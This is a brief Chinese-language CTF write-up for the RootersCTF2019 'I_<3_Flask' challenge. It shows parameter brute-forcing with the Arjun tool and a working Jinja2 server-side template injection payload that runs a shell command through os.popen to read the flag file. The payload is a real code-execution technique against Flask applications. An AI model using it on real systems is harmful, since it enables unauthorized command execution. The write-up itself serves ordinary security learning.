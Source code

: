 # [RootersCTF2019]I_＜3_Flask

第一次遇到参数爆破 记录一下

确实 我扫目录 robots.txt 啥都没有 功能点都没有.....

但是确实没有想到参数爆破

```cobol
pip3 install arjun
```



代码为

```r
arjun -u   url -m -c 100 -d 5
 
-d选项来延迟请求发送的间隔时间
 
-c可以通过指定一次发送的参数数量
```

很慢 等他爆破吧

爆出来了 name

我们去输入一下

这道题目就提示SSTI

很简单没有过滤

```handlebars
{{lipsum.__globals__['os'].popen("cat f*").read()}}
```

没啥特殊的 就是参数爆破第一次遇到